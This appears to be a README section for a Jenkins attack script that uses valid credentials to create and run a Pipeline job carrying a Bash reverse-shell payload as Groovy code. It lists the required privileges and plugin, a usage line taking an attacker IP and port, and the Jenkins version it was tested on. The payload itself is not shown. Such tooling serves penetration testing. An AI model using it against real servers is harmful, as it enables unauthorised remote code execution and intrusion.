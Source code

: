 ## linux_revshell_groovy.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Linux.\
And Jenkins must have the "[workflow-cps](https://plugins.jenkins.io/workflow-cps/)" or "Pipeline: Groovy" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Pipeline"** JOB.

![linux_revshell_groovy_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_groovy.py/images/linux_revshell_groovy_1.png)

Then configures it or BUILD a **"Pipeline script"** with the **Bash** payload as **Groovy** code.
![linux_revshell_groovy_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_groovy.py/images/linux_revshell_groovy_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./linux_revshell_groovy.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![linux_revshell_groovy_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_groovy.py/images/linux_revshell_groovy_3.png)
![linux_revshell_groovy_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_groovy.py/images/linux_revshell_groovy_4.png)

Tested on Jenkins 2.150.2 on Ubuntu Server 22.04.3 LTS
